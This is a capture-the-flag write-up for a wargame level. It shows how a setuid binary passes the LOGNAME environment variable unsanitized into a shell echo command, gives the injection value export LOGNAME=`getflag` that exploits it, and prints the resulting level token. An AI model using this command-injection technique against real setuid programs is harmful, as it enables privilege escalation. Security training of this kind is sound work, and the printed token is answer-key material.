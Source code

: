 # Level07 Writeup

## Objective
Gain access to the `flag07` user and retrieve the password for `level08`.

## Steps Taken

1. **Initial Inspection**  
   Listing files in the home directory showed the following executable:
   ```
   -rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
   ```
   This binary is owned by `flag07` and executable by `level07`.

2. **Binary Analysis**  
   I analyzed the binary using the online tool [Dogbolt.org](https://dogbolt.org/) and found the following logic in the code:
   ```c
   pcVar1 = getenv("LOGNAME");
   asprintf(&local_1c,"/bin/echo %s ",pcVar1);
   ```
   This means the program reads the `LOGNAME` environment variable and builds a shell command with it.
   This means it prints the value of the `LOGNAME` environment variable using `echo`.

3. **Exploitation via Environment Variable**  
   Since the program uses the `LOGNAME` variable without sanitization, I was able to inject a command:
   ```bash
   export LOGNAME=\`getflag\`
   ```
   Then, I executed the binary:
   ```bash
   ./level07
   ```

4. **Retrieve the Flag**  
   The output was:
   ```
   Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
   ```

## Result
Successfully retrieved the password for `level08`:  
```
fiumuikeil55xe9cu4dood66h
```

